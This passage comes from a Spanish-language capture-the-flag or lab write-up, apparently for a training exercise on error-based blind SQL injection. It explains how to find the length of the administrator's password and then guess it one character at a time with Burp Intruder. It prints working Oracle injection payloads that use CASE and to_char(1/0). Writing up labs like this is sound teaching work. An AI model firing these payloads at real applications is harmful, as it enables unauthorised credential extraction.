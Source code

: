       ![](assets/2022-07-08-12-41-37.png)

### 5. Obtener la clave

Una vez que tenemos el usuario y la tabla ya podemos realizar el ataque para saber la contraseña.

La lógica es :
   1. Obtener el tamaño de la cadena
   2. ir haciendo pruebas alfanumericas (como nos dice el ejercicio), una vez que encontremos el 1º caracter vamos al segundo y así.

## 6. Obtener el tamaño de la contraseña 
Con esto conseguimos saber el tamaño, tenemos que mandarlo a intruder pero añadiendolo a nuestra consulta principal porque sino no veríamos ningun cambio , devolvería siempre 200.

```sql 
-- Para saber el tamño
(select username from users where username='administrator' and LENGTH(password)>0)='administrator'

-- Nuestra consulta funcional

' union (select case when ((select username from users where username='administrator')='administrator') then to_char(1/0) else '' end from users)-- 

-- Consulta  que mandaremos al intruder

' union (select case when ((select username from users where username='administrator' and LENGTH(password)>0)='administrator') then to_char(1/0) else '' end from users)-- 

```


Antes de mandarlo voy a hacer una prueba con password >0 eso es verdad por lo que la condición sería 1 por lo que el resultado sería 

![](assets/2022-07-08-12-53-10.png)

Luego probaré una consulta con password> 1000 sería falso por lo que la condición and haría que fuese falso por lo que el resultado sería 200

![](assets/2022-07-08-12-54-01.png)
